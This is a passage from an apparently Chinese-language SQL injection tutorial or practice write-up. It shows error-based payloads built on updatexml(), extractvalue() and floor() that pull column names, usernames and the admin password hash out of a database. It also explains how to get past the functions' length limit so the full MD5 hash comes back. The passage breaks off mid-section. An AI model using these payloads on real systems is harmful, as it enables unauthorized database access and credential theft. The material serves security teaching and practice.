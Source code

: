 

##### 爆字段

**updatexml()函数：**

```sql
1' and updatexml(1,concat('~',(select column_name from information_schema.columns where table_name = 'users' limit 0,1)),1))#
```

![image-20220131215105134](https://gitee.com/xxb667/img/raw/master/img/image-20220131215105134.png)

**extractvalue()函数：**

```sql
1' and extractvalue(1,concat('~',(select column_name from information_schema.columns where table_name = 'users' limit 0,1))))#
```

![image-20220131215121447](https://gitee.com/xxb667/img/raw/master/img/image-20220131215121447.png)

**floor()函数：**

```sql
1'and (select 1 from (select count(*),concat('~',(select column_name from information_schema.columns where table_name = 'users' limit 0,1),'~',floor(rand(0)*2))as x from information_schema.tables group by x)a))#
```



##### 爆值

**updatexml()函数：**

查username：

```sql
1' and updatexml(1,concat('~',(select username from users limit 0,1)),1))#
```

![image-20220131215613990](https://gitee.com/xxb667/img/raw/master/img/image-20220131215613990.png)

查password：

```
1' and updatexml(1,concat(0,(select password from users where username='admin')),1))#
```

![image-20220131215636511](https://gitee.com/xxb667/img/raw/master/img/image-20220131215636511.png)

- **updatexml()**、**extractvalue()**有长度限制，
- 将之前想用来标记位置的**~**换成0，
- 返回完整的32位md5值，
- 不改的话每次只能显示31个字符

**extractvalue()函数：**

查username：
